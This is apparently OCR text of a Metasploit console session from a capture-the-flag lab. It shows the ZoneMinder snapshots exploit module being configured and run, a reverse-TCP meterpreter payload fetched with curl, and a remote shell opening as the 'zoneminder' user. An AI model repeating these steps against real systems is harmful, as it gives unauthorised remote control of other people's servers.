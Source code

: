 ```
Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      VLrHPQBcGC       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   nix Command



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/zoneminder_snapshots) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/zoneminder_snapshots) > set TARGETURI /
TARGETURI => /
msf6 exploit(unix/webapp/zoneminder_snapshots) > set LHOST tun0
LHOST => 10.10.14.122
msf6 exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 10.10.14.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 10.75087928999983 seconds.
[+] The target is vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:39031348c102bef16d453599d64c3e36881e53af,1702374789
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 10.10.11.245
[*] Meterpreter session 1 opened (10.10.14.122:4444 -> 10.10.11.245:34562) at 2023-12-12 17:53:15 +0800
[+] Payload sent

meterpreter > getuid
Server username: zoneminder

```
